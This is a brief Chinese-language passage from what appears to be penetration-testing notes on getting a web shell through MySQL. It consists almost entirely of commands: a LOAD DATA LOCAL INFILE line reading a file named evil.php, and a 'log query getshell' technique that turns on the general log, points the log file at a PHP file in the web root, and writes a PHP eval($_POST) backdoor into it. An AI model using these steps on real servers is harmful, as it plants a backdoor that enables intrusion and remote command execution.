 ```
create table mytable(a varchar(100));
LOAD DATA LOCAL INFILE "C:\\phpstudy\\WWW\\evil.php" INTO TABLE mytable;
```

![](media/2019-12-31-08.png)

2、日志查询getshell

```
show variables like '%general%';  #查看配置
set global general_log = on;  #开启general log模式
set global general_log_file = 'C:\\phpstudy\\WWW\\ma.php';   #设置日志目录为shell地址
select '<?php eval($_POST[huahua]);?>'  #写入shell
```
